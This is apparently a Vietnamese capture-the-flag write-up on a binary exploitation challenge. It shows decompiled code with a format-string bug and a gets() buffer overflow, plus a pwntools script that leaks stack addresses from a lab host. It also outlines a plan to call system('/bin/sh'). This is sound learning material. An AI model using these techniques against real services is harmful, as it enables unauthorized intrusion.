 ```yaml
---
title: buffer_overflow

---
```


Ta có 2 file: bof binary và lib.so.6 
thực hiện disassemble và tạo pseudocode, tìm thấy hàm main:
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  sub_40127E(a1, a2, a3);
  printf("Enter your name: ");
  fgets(s, 32, stdin);
  sub_401303(s);
  return 0LL;
}
```
sub_401303

```
__int64 __fastcall sub_401303(const char *a1)
{
  char v2[112]; // [rsp+10h] [rbp-70h] BYREF

  printf(a1);
  printf("Input your string: ");
  gets(v2);
  printf("Here's your string: %s", v2);
  return 0LL;
}
```
nhận thấy hàm sub có thể vulnerable với cả bufferoverflow lẫn format string, thử cả hai: 
sử dụng pwntools:
```
from pwn import *

p = remote('10.8.0.1', 5004)

#leak địa chỉ: 
p.recvuntil(b"Enter your name: ")
payload = b"%p %p %p %p %p %p %p %p"
p.sendline(payload)
print(p.recv().decode())
```
đoán mò mục tiêu là để tìm được system() và /bin/sh, do kinh nghiệm từ trước. 
sau khi tìm được địa chỉ của chúng, ta căn cho overflow vào đúng chỗ. 

